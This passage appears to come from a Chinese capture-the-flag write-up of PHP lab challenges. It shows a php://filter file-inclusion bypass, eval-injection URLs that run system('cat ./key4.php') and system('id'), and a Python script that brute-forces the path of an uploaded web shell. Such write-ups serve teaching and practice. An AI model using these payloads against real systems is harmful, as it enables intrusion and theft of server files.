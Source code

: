 解题方法依旧是双写绕过

`http://150.158.27.164:1083/start/index.php?page=phphp://p://filter/read=convert.base64-encode/resource=../key.php`

得到base64编码的`PD9waHANCi8va2V5Mzo0cnB2ZHlzdQ0KPz4NCg== `

解码

```
<?php
//key3:4rpvdysu
?>
```

#### 5.代码执行漏洞-1084

```
 <?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__); 
```

本题主要考察绕过技巧

`http://150.158.27.164:1084/start/vul.php?a=${${system('cat ./key4.php')}}`

或者

`http://150.158.27.164:1084/start/vul.php?a=");system('id');//`

#### 6.文件上传-2082

本题代码

```php
$filename = $files["name"];
$randnum = rand(1, 99999);
$fullpath = '/' . md5($filename.$randnum).".".substr($filename,strripos($filename,'.') + 1); 
```

代码逻辑就是获取文件名，将文件名与1-99999之间生成的随机数做一个md5运算，再拼接上后缀

一看代码就知道上传没有返回路径，需要爆破路径，用python生成所有可能的文件名，进行爆破

python代码

```python
import  hashlib
filename = "shells.php"
path_list = []
for i in range(1,99999):
    s = hashlib.md5((filename+str(i)).encode())
    path = s.hexdigest()+'.php'
    path_list.append(path)
    
with open('path.txt','a') as f:
    for i in path_list:
        print(i)
        f.write(i+'\n')
```
